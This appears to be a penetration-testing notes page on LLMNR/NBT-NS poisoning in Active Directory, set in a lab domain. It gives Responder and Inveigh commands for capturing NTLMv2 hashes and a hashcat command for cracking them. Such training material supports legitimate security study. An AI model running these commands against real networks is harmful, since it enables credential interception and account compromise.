 ```yaml
---
title: "Sniffing a Foothold"
Description: LLMNR/NBT-NS poisoning, responder, inveigh, cracking NTLMv2 
draft: false
images: []
menu:
  docs:
    parent: "Active Directory"
weight: 2
toc: true
---
```


### <span style="color:#208355"> Quick Example - LLMNR/NBT-NS Poisoning

Let's walk through a quick example of the attack flow at a very high level:

```bash
1. A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local.
2. The DNS server responds, stating that this host is unknown.
3. The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local.
4. The attacker (us with Responder running) responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for.
5. The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash.
6. This hash can then be cracked offline or used in an SMB Relay attack if the right conditions exist.
```
### <span style="color:#208355"> LLMNR/NBT-NS Poisoning - from Linux

<span style="color:#208355"><a href="https://github.com/lgandx/Responder" target="_blank">Responder</a></span> will listen and answer any requests it sees on the wire. If you are successful and manage to capture a hash, Responder will print it out on screen and write it to a log file per host located in the /usr/share/responder/logs directory.

```
sudo responder -I ens224 
```
### <span style="color:#208355"> LLMNR/NBT-NS Poisoning - from Windows

The tool <span style="color:#208355"><a href="https://github.com/Kevin-Robertson/Inveigh" target="_blank">Inveigh</a></span> works similar to Responder, but is written in PowerShell and C#. Inveigh can listen to IPv4 and IPv6 and several other protocols, including LLMNR, DNS, mDNS, NBNS, DHCPv6, ICMPv6, HTTP, HTTPS, SMB, LDAP, WebDAV, and Proxy Auth.

Powershell:
```
PS C:\kryot> Import-Module .\Inveigh.ps1
PS C:\kryot> (Get-Command Invoke-Inveigh).Parameters
PS C:\kryot> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
C# Inveigh:
```
PS C:\kryot> .\Inveigh.exe

GET NTLMV2UNIQUE
GET NTLMV2USERNAMES
HELP
```

### <span style="color:#208355"> Cracking an NTLMv2
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt 
```